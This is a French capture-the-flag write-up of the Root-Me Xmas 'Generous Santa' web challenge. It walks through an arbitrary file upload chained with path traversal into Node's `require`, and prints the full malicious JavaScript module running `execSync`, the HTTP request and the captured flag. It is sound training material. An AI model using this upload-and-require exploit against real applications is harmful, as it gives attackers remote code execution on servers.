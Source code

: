 # 🎅 Generous Santa (XMAS Day 1)

### 🛠 Type : `Web`

### ✍️ Auteur : `Elweth`

## 📝 Description

Ce challenge repose sur l'upload d'un fichier et une exécution non contrôlée via `require`. L'objectif est d'exploiter cette faille pour exécuter du code arbitraire et obtenir le flag.

## 💀 Analyse du code source

On a accès au code source, ce qui signifie qu'il faut trouver un moyen de l'exploiter.

En explorant l'application, on découvre une fonctionnalité permettant d'**uploader une suggestion**, sous forme d'image. Cependant, aucun vérification n'est effectuée sur le type de fichier envoyé, ce qui ouvre une première piste d'exploitation.

![suggest](suggest.png)

De plus, on remarque une méthode `add` qui fait un `require` sur un fichier dont le chemin est fourni dans la requête. Cela semble potentiellement exploitable avec un **path traversal**

## ![add](add.png)

## 🤔 Exploitation de la faille

### 🔍 Idée d'attaque

L'idée est d'**uploader un fichier JavaScript malveillant** qui imite un objet `Gift` existant dans l'application, avec une méthode `store()` modifiée pour exécuter une commande système et récupérer le flag.

Plusieurs tentatives d'exécution de commandes via `require`, j'ai éssayé avec `exec()`, mais celà ne marchait pas. En utilisant `execSync`, celà fonctionne parfaitement.

J'ai donc créé un fichier `poulet.js` contenant :

```js
const { execSync } = require("child_process");

class Gift {
  constructor({ name, description }) {
    this.name = name || "default name";
    this.description = description || "default description";
  }

  store() {
    try {
      const commandOutput = execSync("cat ../../flag.txt").toString();
      return {
        success: true,
        name: this.name,
        description: this.description,
        commandOutput,
      };
    } catch (error) {
      return {
        success: false,
        error: error.message,
      };
    }
  }
}

module.exports = Gift;
```

---

## 🎉 Exécution de l'attaque

1. **Upload du fichier malveillant** :

   ```json
   {
     "message": "Thank you! Santa will consider your suggestion.",
     "photoPath": "/tmp/2024-12-02_17-2-45/poulet.js"
   }
   ```

2. **Exploitation via l'endpoint `/add`** :

   ```http
   POST /api/add HTTP/2
   Host: day1.challenges.xmas.root-me.org
   Content-Length: 55

   {
       "product":"../../../tmp/2024-12-02_17-2-45/poulet.js"
   }
   ```

3. **Réponse de l'API** :

   ```json
   {
     "success": true,
     "output": {
       "success": true,
       "name": "../../../tmp/2024-12-02_17-2-45/poulet.js",
       "description": "Description of ../../../tmp/2024-12-02_17-2-45/poulet.js",
       "commandOutput": "The flag is : \n\nRM{Mayb3_S4nt4_Cl4uS_Als0_G3t_A_Flag}"
     }
   }
   ```

---

## 🏁 Flag

```
RM{Mayb3_S4nt4_Cl4uS_Als0_G3t_A_Flag}
```

---

## 🚀 Conclusion

Ce challenge sur la **faiblesse d'upload** était très interessant.

- L'absence de vérification des fichiers uploadés a permis d'envoyer un code ressemblant mais malveillant.
- Le `require` sans contrôle a permis d'exécuter notre code.

### 📝 Autres Write-Ups du même challenge

[Laluka - D01 Generous Santa - Root-Me Xmas CTF](https://www.youtube.com/watch?v=XaT6NnGCjYg)

https://an0n1mity.com/posts/rootme-xmas-generous-santa/
